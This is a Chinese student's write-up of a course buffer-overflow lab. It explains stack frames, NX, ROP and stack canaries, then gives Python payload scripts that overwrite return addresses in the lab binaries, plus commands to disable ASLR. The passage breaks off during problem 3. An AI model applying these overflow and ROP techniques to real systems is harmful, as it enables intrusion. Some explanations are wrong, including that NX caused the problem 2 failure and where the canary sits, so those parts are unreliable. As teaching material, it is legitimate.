





# Baby_attack_lab踩坑日记

​	由于时间原因，我们并没有去做正统的attack_lab，而是来做baby版，希望能简单一丢丢（小声，主要是被上一个bomblab弄破防了）。

## 目录

- [**前置知识**](#前置知识)
- [**Nxenabled保护**](#NX保护)
- [**ROP攻击**](#ROP攻击)
- [**Canary保护**](#Canary保护)
- [**题目介绍**](#题目介绍)
- [**problem 1**](#problem1)
- [**problem 2**](#problem2)
- [**problem 3**](#problem3)
- [**problem 4**](#problem4)
- [**参考资料**](#参考资料)

## 前置知识

​	x86-64架构的存储器有些常用的使用习惯：

- 用来传参数的寄存器：%rdi, %rsi, %rdx, %rcx, %r8, %r9
- 保存返回值的寄存器：%rax
- 被调用者保存状态：%rbx, %r12, %r13, %r14, %rbp, %rsp
- 调用者保存状态：%rdi, %rsi, %rdx, %rcx, %r8, %r9, %rax, %r10, %r11
- 栈指针：%rsp
- 指令指针：%rip

​	而对于 x86-64 的栈来说，栈顶的地址最小，栈底的地址最大，寄存器 `%rsp` 保存着指向栈顶的指针。栈支持两个操作：

- `push %reg`：`%rsp` 的值减去 8，把寄存器 `%reg` 中的值放到 `(%rsp)` 中
- `pop %reg`：把寄存器 `(%rsp)` 中的值放到 `%reg` 中，`%rsp` 的值加上 8

​	接下来需要了解的事情是，每个函数都有自己的**栈帧(stack frame)**，可以把它理解为每个函数的工作空间，保存着：

- 本地变量
- 调用者和被调用者保存的寄存器里的值
- 其他一些函数调用可选的值

​	**这就说明**，调用者在调用函数时要完成以下过程：

- 为要保存的寄存器值及可选参数分配足够大控件的栈帧
- 把所有调用者需要保存的寄存器存储在帧中
- 把所有需要保存的可选参数按照逆序存入帧中
- `call foo:` 会先把 `%rip` 保存到栈中，然后跳转到 label `foo`

​	依据这一点，我们可以完成**栈溢出**的攻击过程：

1. **缓冲区分配**：当函数调用发生时，为局部变量分配一定的栈空间。
2. **用户输入**：如果函数接收了来自用户的输入，并且没有正确地检查输入长度，就可能导致写入的数据超过局部变量所分配的空间。
3. **栈帧覆盖**：过长的数据将覆盖栈上的其他信息，包括函数的返回地址。
4. **控制流劫持**：攻击者可以通过精心构造的输入来覆盖返回地址，使得函数返回时跳转到攻击者指定的代码位置，通常是恶意代码所在的位置。

​	也就是说，利用缓冲区溢出，实际上就是通过重写返回值地址，来执行另一个代码片段，就是所谓的代码注入。

​	

------

​	我们来看一个简单的栈溢出的例子：

```c
// 比方说现在有人向你暴露了一个操作接口，你还通过一些手段知道了这个操作背后是这样的代码
char s[24];
get(s);
```

​	实际上这个代码相当的不安全，这是因为get(s)可以让用户输出很长的字符串，从而影响了函数栈本身。 比方说这个这段代码所调用的函数栈如下:

```lua
                                           +-----------------+
                                           |     retaddr     |
                                           +-----------------+
                                           |     saved ebp   |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                            esp=ebp-0x40-->+-----------------+
```

​	我们将你的输入定义为payload，那么此时payload会放在esp所指向的地址(注意，这是因为在32位中参数会放在栈上决定的，64位中不一定会放在rsp所指向的地址上) 。但是如果你想要搞破坏的话，你可以通过设计你的payload来让函数最后跳转到别的函数上去，即修改retaddr的内容 比如说你的payload是：

```bash
payload='A'*0x40(覆盖esp指向的地址到ebp指向地址之间的内容)+'A'*4(覆盖saved ebp内容)+0xdeadbeef
在python中,payload的形式更有可能是b'A'*0x44+b'\xef\xbe\xad\xde'，在后面会解释为什么格式是这个样子。
(覆盖retaddr，当函数执行结束后会跳转到0xdeadbeef执行下一条指令)
#payload指的是你的输入内容，后面我们将延续此含义
```

​	请想一下，如果0xdeadbeef上函数是system('bin/sh')这种系统函数调用的话，那岂不是就可以劫持到你电脑的权限了？（实际上第一代蠕虫病毒就是用的栈溢出的漏洞）

------

​	这之后，我们需要把需要注入的代码转换位字节码，这样机器才能执行，这里可以使用 `gcc` 和 `objdump` 来完成这个工作

```bash
# 假设 foo.s 是我们想要注入的代码
vim foo.s

# 利用 gcc 生成对应的字节码 foo.o
gcc -c foo.s

# 通过 objdump 来查看其内容，可以看到对应的字节码
objdump -d foo.o | less

# 然后需要把十六进制代码转换成字符串这样我们可以写在程序里
./hex2raw -i inputfile -o outputfile
```

​	或者是运行以下python代码

```python
# 比如你发现你可以使用'A'去覆盖8个字节，然后跳转到0x114514地址就可以完成任务，那么你可以这么写你的payload并保存
padding = b"A" * 16
func1_address = b"\x14\x45\x11\x00\x00\x00\x00\x00"  # 小端地址
payload = padding+ func1_addr ess
# Write the payload to a file
with open("ans.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans.txt")
#解释一下，为什么要将函数地址写成这个样子
#比方说你希望将字节0xA放在栈上时，如果你的txt文件是可见字符'A'的话，实际上放到栈上的是字节0x41(可见字符'A'对应的ASCll码值)
#但很明显，这不符合我们的预期，因此需要用关键字b去保证是0xA，比如b'A'，此时就是0xA，而不是可见字符'A'
#再之后就是地址的问题了，比如地址0x114514,由于大部分人的机器是小端存储，在python中最低有效字节应该放在前面，因此最后结果为上面代码的结果
#当然，如果你不喜欢python的话，可以尝试其他多种写法，只需要保证结果正确就行。
```

​	(另一种攻击是使用 return-oriented programming 来执任意代码，这种方法在 stack 不可以执行或者位置随机的时候很有用。)

​	这种方法主要是利用 gadgets 和 string 来组成注入的代码。具体来说是使用 `pop` 和 `mov` 指令加上某些常数来执行特定的操作。也就是说，利用程序已有的代码，重新组合成我们需要的东西，这样就绕开了系统的防御机制。

## NX保护

​	**NX (No Execute) 保护**，也被称为 **DEP (Data Execution Prevention)**，是一种硬件和操作系统的安全功能，旨在防止恶意代码在程序的数据区域中执行。它通过标记内存页面为**不可执行**来实现这一保护，从而阻止程序尝试执行数据段中的代码。

​	在没有 NX 保护的系统上，攻击者可能利用缓冲区溢出等漏洞，将恶意代码注入到程序的数据区，然后通过覆盖返回地址等方式，强行跳转到这些数据区并执行恶意代码。启用 NX 保护后，任何试图在这些内存区域执行代码的行为都会被系统阻止，从而大大降低了漏洞被恶意利用的风险。

​	随着 NX (Non-eXecutable) 保护的开启，传统的直接向栈或者堆上直接注入代码的方式难以继续发挥效果，由此攻击者们也提出来相应的方法来绕过保护。

​	目前被广泛使用的攻击手法是 **返回导向编程** (Return Oriented Programming)，其主要思想是在 **栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。**

​	gadgets 通常是以 `ret` 结尾的指令序列，通过这样的指令序列，我们可以多次劫持程序控制流，从而运行特定的指令序列，以完成攻击的目的。

​	返回导向编程这一名称的由来是因为其核心在于利用了指令集中的 ret 指令，从而改变了指令流的执行顺序，并通过数条 gadget “执行” 了一个新的程序。

​	使用 ROP 攻击一般得满足如下条件：

- 程序漏洞允许我们劫持控制流，并控制后续的返回地址。
- 可以找到满足条件的 gadgets 以及相应 gadgets 的地址。

​	需要注意的是，现代操作系统通常会开启地址随机化保护（ASLR），这意味着 gadgets 在内存中的位置往往是不固定的。但幸运的是其相对于对应段基址的偏移通常是固定的，因此我们在寻找到了合适的 gadgets 之后可以通过其他方式泄漏程序运行环境信息，从而计算出 gadgets 在内存中的真正地址。

## ROP攻击

​	ROP（Return-Oriented Programming，返回导向编程）是一种绕过NX保护（即栈不可执行）的攻击技术。它利用程序中已有的合法代码片段（即“gadgets”）来构造恶意的控制流，从而实现攻击者的意图。ROP攻击的核心思想是利用已存在的代码（比如库函数或程序本身的代码），通过精确地控制程序的返回地址和栈内容来执行恶意操作，而无需依赖可执行堆栈。

#### ROP攻击的步骤

1. **寻找Gadget**： Gadget 是程序中的一段短小代码，通常是3到4个指令组成的一小块代码（以“return”指令结尾）。ROP攻击的基本构建块就是这些gadgets。攻击者通过控制栈的返回地址，逐步执行这些gadgets，并将它们链接在一起，形成一个完整的攻击链。
2. **构造ROP链**： 攻击者需要通过溢出栈来修改返回地址，使得程序跳转到攻击者控制的地址。这个地址通常指向一些gadget，这些gadget完成一些特定的任务。每个gadget执行一小段指令后会返回（`ret`指令），然后跳转到下一个gadget，直到攻击完成。
3. **链式执行Gadget**： 通过这种方式，攻击者可以控制程序的执行流程，即使NX保护启用，栈无法直接执行代码。通过将这些gadget链接在一起，攻击者可以绕过栈执行保护，完成他们的攻击目标。
4. **利用栈泄漏（Stack Leak）或其他信息泄漏**： 有时，攻击者需要知道程序中的某些信息（比如gadget的地址）才能精确地构造ROP链。可以通过泄漏地址信息（如通过格式化字符串漏洞、堆泄漏、全局变量等）来实现这一点。

#### 如何在你的程序中进行ROP攻击？

1. **确定可用的Gadget**： 你需要首先找出程序中（包括可执行文件、共享库等）存在的gadget。这可以通过工具如`ROPgadget`或`radare2`来查找。你需要查找包含`ret`指令的代码片段，并确保它们做了攻击者需要的事情（例如加载参数、跳转到其他函数、调用系统调用等）。

   例如，通过以下命令在你的程序中查找gadget：

   ```bash
   ROPgadget --binary your_binary_file
   ```

2. **构造ROP链**： 构造ROP链时，你需要确定链中的每个gadget的地址，并通过栈溢出修改返回地址。ROP链的构造步骤通常包括：

   - 找到一个gadget，它将一个特定的参数（如`func2`的地址）传递到适当的寄存器中。
   - 找到一个gadget，执行`call`或`jmp`指令，跳转到目标函数或地址。
   - 确保每个gadget之后都有一个`ret`指令来返回到下一个gadget。

3. **写入攻击载荷（Payload）**： 一旦你构造好了ROP链，就可以将其写入到程序的栈中。通过溢出缓冲区来覆盖返回地址，并确保返回地址指向ROP链的第一个gadget。

   示例攻击载荷构造：

   ```python
   padding = b'A' * 16  # 填充数据的大小，确保覆盖栈上的数据直到返回地址
   func2_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"  # func2的地址，小端表示
   gadget1_address = b"\x10\x12\x40\x00\x00\x00\x00\x00"  # gadget1的地址
   gadget2_address = b"\x11\x12\x40\x00\x00\x00\x00\x00"  # gadget2的地址
   
   # 构造ROP链
   payload = padding + gadget1_address + gadget2_address + func2_address
   
   # 写入payload到文件
   with open("ans2.txt", "wb") as f:
       f.write(payload)
   
   print("Payload written to ans2.txt")
   ```

4. **执行攻击**： 当程序运行时，栈上的返回地址被覆盖，并指向ROP链的第一个gadget。每次执行完一个gadget，它会返回到下一个gadget，直到最后执行完目标函数（比如`func2`）。

## Canary保护

​	**Canary保护**是一种栈保护机制，主要用于防止栈溢出攻击。它通过在函数的栈帧中放置一个称为“canary”的特殊值（也叫做“栈金丝雀”）来检测栈是否被篡改。这个保护机制最早由**StackGuard**提出，并在现代操作系统中被广泛使用，例如在GCC编译器中作为**`-fstack-protector`**选项提供。

#### Canary保护机制的工作原理

1. **在栈上放置canary值：** 在程序执行时，编译器会在每个函数的栈帧中插入一个特殊的值，通常被称为“canary”。这个canary值的位置一般位于**返回地址**之前，栈的高地址部分。它被用来标识栈的完整性。

   典型的栈帧布局如下：

   ```
   +------------------+
   |    局部变量区     |
   +------------------+
   |   返回地址 (ret)  |
   +------------------+
   |     canary值     |  <-- canary
   +------------------+
   |   保存的寄存器    |
   +------------------+
   ```

2. **栈溢出时篡改canary值：** 如果攻击者通过栈溢出技术改变了函数的栈帧（例如覆盖返回地址），这个canary值就会被改变。由于canary的值是固定的且不可预测（通常是随机生成的），攻击者很难在栈溢出时精确地猜测或覆盖它。

3. **函数返回时检查canary值：** 当函数即将返回时，程序会检查栈上的canary值。如果canary值没有被篡改（即与原值匹配），则正常返回；如果canary值发生了变化，程序会立即终止或触发异常，防止攻击者利用栈溢出执行恶意代码。

   具体来说，栈保护机制通常会在函数的返回之前插入类似以下的检查代码：

   ```c
   if (canary != saved_canary_value) {
       // 检测到栈被篡改，触发保护
       abort(); // 或其他的防御机制
   }
   ```

4. **Canary值的随机性：** 为了防止攻击者猜测canary值，一些实现会在程序启动时随机生成一个canary值，并且这个canary值会在程序运行期间持续存在。这样，即使攻击者知道保护机制的存在，他们也无法轻易猜测正确的canary值。

#### 保护机制的细节

- **Canary值的选择：** Canary值通常是一个不可预测的值，有时通过调用**系统随机数生成器**（如`rand()`）来生成。为了增加安全性，某些系统使用一些特定的标志位（例如0x00、0xFF等）作为canary值的一部分，使得攻击者更难猜测。
- **栈保护检查的开销：** Canary保护增加了额外的检查开销，但相对于栈溢出攻击的潜在危险，这个开销是值得的。通常，保护机制会在栈上插入canary值，并在函数返回时做一次检查。这个检查通常是在`ret`指令之前进行。

### 栈溢出攻击与Canary保护

​	攻击者通常利用**栈溢出**（Buffer Overflow）漏洞来覆盖函数的返回地址，进而控制程序的执行流程。栈溢出的基本原理是，通过向栈上写入超过缓冲区大小的数据，攻击者能够覆盖栈中的数据（如返回地址），使得程序跳转到恶意代码的地址。

​	但如果启用了canary保护，攻击者无法直接通过栈溢出覆盖返回地址，因为canary值位于返回地址之前。如果溢出发生，canary值就会被修改，导致程序在返回时检测到栈被篡改，从而中止执行。

#### Canary保护的类型

1. **简单canary：** 最基本的canary保护机制，即在栈帧中插入一个固定的、不可预测的canary值，并在函数返回时检查它是否被篡改。
2. **基于硬件的canary保护：** 某些现代处理器提供了硬件支持的栈保护机制，通过硬件本身保护栈上的canary值。例如，某些处理器能够检查栈指针是否发生异常变化，或者在硬件级别进行canary值的检测。
3. **加密canary：** 一些高级的canary机制会加密canary值，以增加攻击者猜测正确canary值的难度。加密canary值使得即使攻击者能够在栈中找到canary值，也无法直接修改它。

#### 总结

​	Canary保护机制通过在栈帧中插入一个随机值（canary），并在函数返回前验证这个值，来检测栈是否被篡改。这种保护可以有效防止栈溢出攻击中的返回地址覆盖。虽然canary保护机制为栈溢出攻击提供了一定的防御，但它并不是绝对安全的，仍然可能面临一些漏洞或被绕过的情况，因此需要与其他安全措施（如ASLR、DEP等）配合使用，以提高系统的安全性。

## 题目介绍

| 题目名称 | 保护类型   | 提示                                             | 注意事项                                                     | 输出要求              |
| -------- | ---------- | ------------------------------------------------ | ------------------------------------------------------------ | --------------------- |
| Problem1 | 无         | 无                                               | 无                                                           | 输出'Yes!I like ICS!' |
| Problem2 | Nxenabled  | 注意传参方法与题目本身的代码片段                 | 无                                                           | 输出'Yes!I like ICS!' |
| Problem3 | 无         | 注意你能够使用的字节长度，以及你的栈地址变化情况 | 本题目难度较大，你可以在选择在gdb模式下输出正确结果或体现结果正确，除此之外，你可以根据你的策略去选择是否关闭内核全局栈随机化 | 输出幸运数字'114'     |
| Problem4 | Canary保护 | 想一想 你真的需要写代码吗                        | 由于题目较为简单，请在报告中明确指出canary保护的机制以及是如何体现在汇编代码中的 | 输出通关提示          |

- 提示：

  ​	请认真阅读汇编代码，所有的信息全在汇编代码中，我们基本上不会让你硬造函数。上述所要求输出的结果都被保存在汇编代码中，你要想办法“调出来”。

- 注意：

1. 这次实验只需要提交报告。报告格式需按照./reports中的格式，将md文件和转换后的pdf文件放在./reports文件夹下提交。
2. 你需要在报告中体现你每道题目的思路是什么，payload是什么，攻击后的输出是什么。problem4请务必指出程序是在哪里设置canary保护的。

## problem1

​	首先，进行反汇编以得到汇编代码：

```bash
objdump -d problem1 > problem1.s
```

​	代码量非常之大，但我在`main`函数的最后发现了这样一句话：

```asm
  40135d:	e8 d0 fe ff ff       	call   401232 <func>
```

​	所以我猜测，这个函数应该就是能够输出错误答案的函数（不可能一上来就对吧）。

```asm
0000000000401258 <main>:
  401258:	f3 0f 1e fa          	endbr64 
  40125c:	55                   	push   %rbp
  40125d:	48 89 e5             	mov    %rsp,%rbp
  401260:	48 81 ec 20 01 00 00 	sub    $0x120,%rsp
  401267:	89 bd ec fe ff ff    	mov    %edi,-0x114(%rbp)
  40126d:	48 89 b5 e0 fe ff ff 	mov    %rsi,-0x120(%rbp)
  401274:	bf 14 20 40 00       	mov    $0x402014,%edi    #注意，edi是在这里被赋值的
	…………
  40135d:	e8 d0 fe ff ff       	call   401232 <func>
  401362:	bf 45 20 40 00       	mov    $0x402045,%edi
  401367:	e8 54 fd ff ff       	call   4010c0 <_init+0xc0>
  40136c:	b8 00 00 00 00       	mov    $0x0,%eax
  401371:	c9                   	leave  
  401372:	c3                   	ret    

0000000000401232 <func>:
  401232:	f3 0f 1e fa          	endbr64 
  401236:	55                   	push   %rbp
  401237:	48 89 e5             	mov    %rsp,%rbp
  40123a:	48 83 ec 20          	sub    $0x20,%rsp
  40123e:	48 89 7d e8          	mov    %rdi,-0x18(%rbp)
  401242:	48 8b 55 e8          	mov    -0x18(%rbp),%rdx
  401246:	48 8d 45 f8          	lea    -0x8(%rbp),%rax
  40124a:	48 89 d6             	mov    %rdx,%rsi
  40124d:	48 89 c7             	mov    %rax,%rdi
  401250:	e8 5b fe ff ff       	call   4010b0 <_init+0xb0>
  401255:	90                   	nop
  401256:	c9                   	leave  
  401257:	c3                   	ret    
```

​	使用`gdb`调试，运行`x/s 0x402014`，得到输出`“Do you like ICS?"`。好吧，我就知道。

​	接下来，我看到func函数上面还有一个`func1`函数。

```asm
0000000000401216 <func1>:
  401216:	f3 0f 1e fa          	endbr64 
  40121a:	55                   	push   %rbp
  40121b:	48 89 e5             	mov    %rsp,%rbp
  40121e:	bf 04 20 40 00       	mov    $0x402004,%edi
  401223:	e8 98 fe ff ff       	call   4010c0 <_init+0xc0>
  401228:	bf 00 00 00 00       	mov    $0x0,%edi
  40122d:	e8 ee fe ff ff       	call   401120 <_init+0x120>
```

​	运行`x/s 0x402004`，得到输出`"Yes!I like ICS!"`,就是我们想要的答案。也就是说，我们的目标就是去调用`func1`函数。

​	于是，我满怀信心的编写了如下代码：（因为可以看到`func`函数中分配了`0x20`也就是32位的空间，再上面的四位就是原来正常的返回地址。而我们要做的就是利用缓冲区溢出将这个地址给改掉）

```python
padding = b"A" * 64
func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"  # 小端地址
payload = padding+ func1_address
# Write the payload to a file
with open("ans1.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans.txt")
```

​	结果仍然输出了`“Do you like ICS?"`（抓狂）。问题就出在了对缓冲区大小的确定上。

​	我们栈溢出的目标，是利用我们想要的输出来覆盖原本的输出区域。而在原本的`fun`函数中，尽管它分配了`0x20`大小的空间，但实际上用于存储输出的只有`401246: 48 8d 45 f8     lea   -0x8(%rbp),%rax`也就是`0x8`这么大的空间，所以我们要填充的空间大小应该是`8+8=16字节`，因此代码应该为：

```python
padding = b"A" * 16
func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"  # 小端地址
payload = padding+ func1_address
# Write the payload to a file
with open("ans1.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans.txt")
```

​	输出后显示



​	成功解决！

## problem2

​	第一步还是一样的，进行反汇编以得到汇编代码：

```bash
objdump -d problem2 > problem2.s
```

​	打眼一看，这不跟`problem1`很像吗，就相当于还是要运用栈溢出把缓冲区覆盖掉。因此，我写了和`problem1`一样的代码（因为`func`也是8字节）：

```python
padding = b'A'* 16  # 填充数据的大小，应确保覆盖栈上的数据直到返回地址
func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"  # 小端地址
payload = padding + func1_address  # 拼接填充数据和 func1 的地址

# 写入 payload 到文件
with open("ans2.txt", "wb") as f:
    f.write(payload)

print("Payload written to ans2.txt")
```

​	运行结果为



​	我在`gdb`中查看了一下，发现`Welcome to the second level!`实际上是地址0x40204c上的内容，也就是`fucc`函数中的输出。

```asm
000000000040126a <fucc>:
  40126a:	f3 0f 1e fa          	endbr64 
  40126e:	55                   	push   %rbp
  40126f:	48 89 e5             	mov    %rsp,%rbp
  401272:	48 83 ec 10          	sub    $0x10,%rsp
  401276:	89 7d fc             	mov    %edi,-0x4(%rbp)
  401279:	48 8d 05 cc 0d 00 00 	lea    0xdcc(%rip),%rax        # 40204c <_IO_stdin_used+0x4c>
  401280:	48 89 c7             	mov    %rax,%rdi
  401283:	b8 00 00 00 00       	mov    $0x0,%eax
  401288:	e8 43 fe ff ff       	call   4010d0 <_init+0xd0>
  40128d:	90                   	nop
  40128e:	c9                   	leave  
  40128f:	c3                   	ret    
```

​	这就很神奇了。为什么我跳转到的是地址`0x401216`，结果却运行了`0x40126a`上的内容？

​	又回去看了一下题目，哦第二题开了NX保护。NX保护会阻止栈上的数据（如返回地址、填充数据等）被执行，即使你通过缓冲区溢出覆盖了返回地址并将其指向一个函数的地址，这样的函数地址也无法在栈上被直接执行。虽然我覆盖了返回地址并尝试跳转到 `func2`，但由于NX保护机制的存在，栈上的代码无法被执行。因此，操作系统会禁止执行 `func2` 的代码，导致跳转实际上发生在 `fucc` 函数。

```asm
0000000000401216 <func2>:
  401216:	f3 0f 1e fa          	endbr64 
  40121a:	55                   	push   %rbp
  40121b:	48 89 e5             	mov    %rsp,%rbp
  40121e:	48 83 ec 10          	sub    $0x10,%rsp
  401222:	89 7d fc             	mov    %edi,-0x4(%rbp)
  401225:	81 7d fc f8 03 00 00 	cmpl   $0x3f8,-0x4(%rbp)
  40122c:	74 1e                	je     40124c <func2+0x36>
  40122e:	48 8d 05 d3 0d 00 00 	lea    0xdd3(%rip),%rax        # 402008 <_IO_stdin_used+0x8>
  401235:	48 89 c7             	mov    %rax,%rdi
  401238:	b8 00 00 00 00       	mov    $0x0,%eax
  40123d:	e8 8e fe ff ff       	call   4010d0 <_init+0xd0>
  401242:	bf 00 00 00 00       	mov    $0x0,%edi
  401247:	e8 d4 fe ff ff       	call   401120 <_init+0x120>
  40124c:	48 8d 05 e8 0d 00 00 	lea    0xde8(%rip),%rax        # 40203b <_IO_stdin_used+0x3b>
  401253:	48 89 c7             	mov    %rax,%rdi
  401256:	b8 00 00 00 00       	mov    $0x0,%eax
  40125b:	e8 70 fe ff ff       	call   4010d0 <_init+0xd0>
  401260:	bf 00 00 00 00       	mov    $0x0,%edi
  401265:	e8 b6 fe ff ff       	call   401120 <_init+0x120>

```

​	那NX保护机制的原理是什么？我们可以看到，在  `401225:	81 7d fc f8 03 00 00 	cmpl   $0x3f8,-0x4(%rbp)`中进行了一个比较，如果相等才能执行下面的程序，而我们直接运行的时候传入的数值与要求的不相等，所以会出现这种情况。

```asm
00000000004012bb <pop_rdi>:
  4012bb:	f3 0f 1e fa          	endbr64 
  4012bf:	55                   	push   %rbp
  4012c0:	48 89 e5             	mov    %rsp,%rbp
  4012c3:	48 89 7d f8          	mov    %rdi,-0x8(%rbp)
  4012c7:	5f                   	pop    %rdi
  4012c8:	c3                   	ret    
  4012c9:	90                   	nop
  4012ca:	5d                   	pop    %rbp
  4012cb:	c3                   	ret    
```

​	在这里我想到的第一种思路是利用`pop_rd`i函数把这个要求的值给它直接传进去。于是编写了以下代码：

```python
padding = b'A'*16   #填充数据的大小，确保覆盖栈上的数据直到返回地址
func2_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"  # func2的地址，小端表示
cookie = b"\xf8\x03\x00\x00\x00\x00\x00\x00"         #要求传入的值的大小
pop_address = b"\xbb\x12\x40\x00\x00\x00\x00\x00"    #pop_rdi的地址

# 构造ROP链
payload = padding + pop_address + cookie + func2_address

#写入payload到文件
with open("ans2.txt","wb") as f:
	f.write(payload)
	
print("Payload written to ans2.txt")
```

​	结果发现不行，这个值传不进去。（当然也有可能是我的代码本身有问题。）我问了一下大佬，大佬告诉我一个可能的原因是**我的exp里面有0x00，strcpy到那里就截止了，没有什么解决办法，这说明strcpy造成的缓存溢出漏洞其实利用难度是有点大的**。好吧，那就换一种思路，也就是跳过比较，直接进入比较后面的输出部分。

```python
padding = b'A' * 16  # 填充数据的大小，确保覆盖栈上的数据直到返回地址

func2_address = b"\x4c\x12\x40\x00\x00\x00\x00\x00"  # func2的地址，小端表示

# 构造ROP链
payload = padding  + func2_address

# 写入payload到文件 
with open("ans2.txt", "wb") as f:
    f.write(payload)

print("Payload written to ans2.txt")

```

​	输出后显示


​	成功解决！

## problem3

​	第一步还是一样的，进行反汇编以得到汇编代码：

```bash
objdump -d problem4 > problem4.s
```

​	看了助教的提示之后，选择直接关闭了地址随机化。以下是在 WSL 中临时关闭 ASLR 的步骤：

1. **打开 WSL 终端**

   启动WSL 发行版（例如 Ubuntu、Debian 等）。

2. **检查当前 ASLR 状态**

   运行以下命令以查看当前的 ASLR 状态：

   ```bash
   cat /proc/sys/kernel/randomize_va_space
   ```

   输出解释：

   - `0`：ASLR 已禁用
   - `1`：部分随机化（默认值）
   - `2`：完全随机化

3. **关闭 ASLR**

   需要超级用户权限（`root`）来修改该设置。使用以下命令关闭 ASLR：

   ```bash
   sudo sysctl -w kernel.randomize_va_space=0
   ```

   或者：

   ```bash
   echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
   ```

4. **验证更改**

   再次运行以下命令确认 ASLR 已关闭：

   ```bash
   cat /proc/sys/kernel/randomize_va_space
   ```

   确认输出为 `0`，表示 ASLR 已成功关闭。

​	随后，在problem3.s中发现了以下五个函数：

```asm
00000000004012da <mov_rdi>:
  4012da:	f3 0f 1e fa          	endbr64 
  4012de:	55                   	push   %rbp
  4012df:	48 89 e5             	mov    %rsp,%rbp
  4012e2:	48 89 7d f8          	mov    %rdi,-0x8(%rbp)
  4012e6:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
  4012ea:	48 89 c7             	mov    %rax,%rdi
  4012ed:	c3                   	ret    
  4012ee:	90                   	nop
  4012ef:	5d                   	pop    %rbp
  4012f0:	c3                   	ret  
```

​	`mov_rdi`函数：将 `rdi` 的值移动到 `rax`，然后将 `rax` 的值赋给 `rdi`。

```asm
00000000004012f1 <mov_rax>:
  4012f1:	f3 0f 1e fa          	endbr64 
  4012f5:	55                   	push   %rbp
  4012f6:	48 89 e5             	mov    %rsp,%rbp
  4012f9:	48 89 7d f8          	mov    %rdi,-0x8(%rbp)
  4012fd:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
  401301:	48 89 c0             	mov    %rax,%rax
  401304:	c3                   	ret    
  401305:	90                   	nop
  401306:	5d                   	pop    %rbp
  401307:	c3                   	ret    
```

​	`mov_rax`函数：将 `rdi` 的值移动到 `rax`。

```asm
0000000000401308 <call_rax>:
  401308:	f3 0f 1e fa          	endbr64 
  40130c:	55                   	push   %rbp
  40130d:	48 89 e5             	mov    %rsp,%rbp
  401310:	48 89 7d f8          	mov    %rdi,-0x8(%rbp)
  401314:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
  401318:	ff d0                	call   *%rax
  40131a:	c3                   	ret    
